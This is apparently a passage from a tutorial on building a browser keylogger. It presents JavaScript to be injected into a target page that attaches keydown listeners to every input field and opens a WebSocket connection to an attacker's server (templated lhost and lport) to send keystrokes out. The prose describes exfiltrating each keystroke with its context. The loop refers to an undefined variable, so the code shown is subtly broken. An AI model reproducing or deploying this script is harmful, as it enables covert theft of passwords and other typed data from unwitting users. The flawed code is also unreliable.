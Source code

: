 	pip install -r pip.req

# WebSockets frontend

Now that the project has been setup, we can start coding the keylogger's frontend. The frontend is the JavaScript code that will be injected into the target page to send keystrokes back to our server. This code should go in the following file:

	keylogger/templates/wsk.js

We start out by creating our onload function. This function will initialize our keylogger when the infected page is loaded. The onload function begins by obtaining a list of every input tag on the target page. It then adds an event listener to each tag, passing logKeystroke as a callback. Our logKeystroke function, the callback, gets executed each time a 'keydown' event occurs. We will define logKeystroke later in this tutorial. We then set our WebSockets namespace and initiate a WebSocket connection with the server. Finally, we set up an event handler for 'connect' events emitted from the server.

{% highlight javascript %}

	window.onload = function() {

		all_inputs = document.getElementsByTagName('input');

		for (var i = 0, length = all_inputs.length; i < length; i++) {
	
			element.addEventListener("keydown", logKeystroke);
		}

		namespace = '/keylogger';
{% raw %} 
		socket = io.connect('http://' + '{{ lhost }}' + ':' + '{{ lport }}' + namespace);
{% endraw %}

    	// event handler for new connections
    	socket.on('connect', function() {
    	    socket.emit({ data : 'new connection initiated'});
    	});
	}

{% endhighlight %}

The following syntax belongs to a templating engine called Jinja.

{% raw %} 

	{{ lhost }}
	{{ lport }}

{% endraw %}

Jinja allows us to define variables from our backend Python code and use them within our HTML template. The lhost and lport variables will be defined at runtime within our backend code.

##Logging Keystrokes

Next we define our logKeystroke function. The logKeystroke function takes a single parameter, event, which represents the event of a key being pressed on the keyboard. We grab the keyCode from the event, and send it back to the server along with other information about the context in which the keystroke occurred.
	
